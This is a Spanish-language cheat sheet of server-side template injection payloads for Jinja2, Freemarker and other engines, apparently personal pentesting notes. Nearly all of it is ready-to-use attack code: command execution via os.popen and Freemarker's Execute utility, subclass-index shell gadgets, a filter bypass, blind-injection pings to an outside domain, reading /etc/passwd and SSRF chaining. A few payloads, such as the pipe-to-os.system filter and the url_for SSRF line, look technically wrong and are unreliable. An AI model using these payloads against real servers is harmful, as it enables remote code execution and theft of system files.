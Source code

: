 -- - 

**Siempre que vemos que esta corriendo python de fondo, flask o werkzeug hay que probar el siguiente payload:**
```flask
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }} --> payload usado para ejecutar comandos.
```
#### **Payload Crafting**

- **Jinja2**: 
  - **Acceder a objetos de Python si el sandbox es débil**:
    ```jinja2
    {{''.__class__.__mro__[1].__subclasses__()[X]}}
    ```
    - Reemplaza `X` con un índice (por ejemplo, `135` para `os._wrap_close`) para generar shells.

- **Freemarker**: 
  - **Invocar utilidades de Java**:
    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
    ```
  
---
#### **Bypass Tactics**

- **¿Sandboxed?** 
  - Busca configuraciones incorrectas o versiones antiguas (por ejemplo, **Jinja2 < 2.10** tenía bypasses).
- **¿Filtros activos?**
  - Utiliza cadenas con pipes:
    ```jinja2
    {{'id'|os.system}}
    ```
  
---
#### **Explotación Avanzada**

- **Blind SSTI (sin salida visible)**:
  - Genera retrasos o pings para confirmar la ejecución:
    ```jinja2
    {{().__class__.__bases__[0].__subclasses__()[X]('ping -c 10 yourdomain.com')}}
    ```

- **Inclusión de Archivos (File Inclusion)**:
  - Leer archivos secretos:
    ```freemarker
    <#include "/etc/passwd">
    ```

- **SSRF Chaining (Encadenamiento de SSRF)**:
  - Pivote interno:
    ```jinja2
    {{url_for('http://internal.service')}}
    ```
  
---

| Template Engine | Test Payload        | Success Indicator  |
| --------------- | ------------------- | ------------------ |
| Jinja2          | {{7*7}}             | 49 in response     |
| Freemarker      | <#assign x=7*7>${x} | 49 in response     |
| Twig            | {{7*7}}             | 49 in response     |
| Velocity        | #set($x=7*7)$x      | 49 in response     |
| ERB             | <%= 7*7 %>          | 49 in response<br> |

### Resources
https://github.com/swisskyrepo/PayloadsAllTheThings
**tplmap:** Scans for SSTI across engines:
